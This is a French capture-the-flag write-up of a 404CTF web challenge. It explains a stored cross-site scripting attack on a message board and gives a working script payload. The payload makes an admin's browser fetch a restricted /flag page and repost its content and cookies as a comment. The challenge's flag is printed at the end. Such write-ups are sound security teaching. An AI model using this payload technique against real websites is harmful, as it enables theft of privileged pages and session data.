




# Télégraphe Détourné
> 100
> 
> easy
> 
> Écrit par rootcan
> 
> Le télégraphe Baudot (inventé par Émile Baudot en 1874) est une avancée majeure qui a rapproché brutalement le vieux télégraphe de l'ordinateur que nous connaissons aujourd'hui. Pour le commémorer, votre ami Jean Baudot (qui n'est évidemment pas un descendant d'Émile Baudot) a créé un site à thème assez simple pour débuter dans la programmation. Prouvez-lui qu'il n'est pas près de devenir un vrai programmeur s'il ne se documente pas assez sur les technologies qu'il implémente... (Le /flag permet d'obtenir le flag...) ("Signaler un problème" vous permettra d'amener un admin sur la page) (L'admin n'a pas accès à Internet)

On a accès à un petit site qui permet de poster des messages sur un tableau de bord. Pour faire ça, il faut "établir un lien", qui fait une requête `/api/init_csrf` pour avoir un token csrf et pouvoir publier des messages.



Il est également possible de signaler un problème, ce qui fait que l'admin va venir visiter la page principale.

La page ``/flag`` est réservée aux admins. 

```
Ceci est réservé aux admins...
```

On peut faire une injection HTML ``<h1>test</h1>``


Il est naturellement possible d'avoir une XSS. Or le bot n'a pas accès à internet, donc impossible d'exfiltrer le contenu de la page `/flag` sur un webhook. De plus, le cookie de session est en ``HTTPOnly : true``, donc on ne peut pas directement voler le cookie de l'admin. (En réalité, `/flag` rajoute un cookie sans HTTPOnly à l'utilisateur)

Il faut donc forcer le bot à consulter `/flag`, récupérer un jeton csrf et poster un commentaire en mettant le contenu de la page et son cookie dedans.

On poste un commentaire dans ce style : 

```
<script>
async function gimmeFlag() {
        const flagPage = await fetch('/flag');
        const result = await flagPage.text();
        const payload = 'comment=' + encodeURIComponent(result) + document.cookie;
        await fetch('/api/init_csrf');
        await fetch('/post_comment', {
            method: 'POST',
            credentials: 'include',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: payload
        });
        console.log("It should work now");
}
gimmeFlag();
</script>
```



Et une fois qu'on a signalé l'admin, il déclenche le script et poste un message avec le flag dedans.



Flag : ``404CTF{SC13NT1F1QU3_P3U_4UX_N0RM3S}``

